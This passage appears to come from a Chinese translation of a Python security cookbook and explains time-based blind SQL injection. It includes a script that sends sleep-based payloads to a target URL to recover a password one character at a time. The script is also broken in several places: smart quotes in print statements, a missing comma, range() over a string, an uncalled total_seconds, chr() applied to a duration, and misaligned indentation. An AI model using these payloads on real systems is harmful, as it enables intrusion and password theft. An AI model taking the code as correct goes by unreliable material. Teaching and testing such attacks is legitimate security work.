 ```py
else:
      asciivalue = asciivalue + 1
      pass
```

最后，我们为每个循环重置`asciivalue`，然后当循环达到字符串的长度时，我们完成，打印整个恢复的字符串：

```py
asciivalue = 1
print “Recovered String: “+ ''.join(answer)
```

## 还有更多...

潜在地，这个脚本可以被修改以处理遍历表并通过更好设计的 SQL 注入字符串恢复多个值。最终，这提供了一个基础，就像后来的盲目 SQL 注入脚本一样，用于开发更复杂和令人印象深刻的脚本来处理具有挑战性的任务。查看*利用盲目 SQL 注入*脚本，了解这些概念的高级实现。

# 利用盲目 SQL 注入

有时候，生活会给你柠檬；盲目的 SQL 注入点就是其中之一。当你相当确定已经找到了 SQL 注入漏洞，但没有错误，也无法让它返回你的数据时，在这些情况下，你可以在 SQL 中使用时间命令来导致页面暂停返回响应，然后利用这个时间来判断数据库及其数据。

我们将创建一个脚本，向服务器发出请求，并根据请求的字符返回不同时间的响应。然后它将读取这些时间并重新组装字符串。

## 如何做…

脚本如下：

```py
import requests

times = []
print “Kicking off the attempt”
cookies = {'cookie name': 'Cookie value'}

payload = {'injection': '\'or sleep char_length(password);#', 'Submit': 'submit'}
req = requests.post('<target url>' data=payload, cookies=cookies)
firstresponsetime = str(req.elapsed.total_seconds)

for x in range(1, firstresponsetime):
  payload = {'injection': '\'or sleep(ord(substr(password, '+str(x)+', 1)));#', 'Submit': 'submit'}
  req = requests.post('<target url>', data=payload, cookies=cookies)
  responsetime = req.elapsed.total_seconds
  a = chr(responsetime)
    times.append(a)
    answer = ''.join(times)
print “Recovered String: “+ answer
```

## 它是如何工作的…

和往常一样，我们导入所需的库并声明我们需要稍后填充的列表。我们还在这里有一个函数，说明脚本确实已经开始。在某些基于时间的函数中，用户可能需要等待一段时间。在这个脚本中，我还使用了`request`库来包含 cookies。对于这种攻击，可能需要进行身份验证：
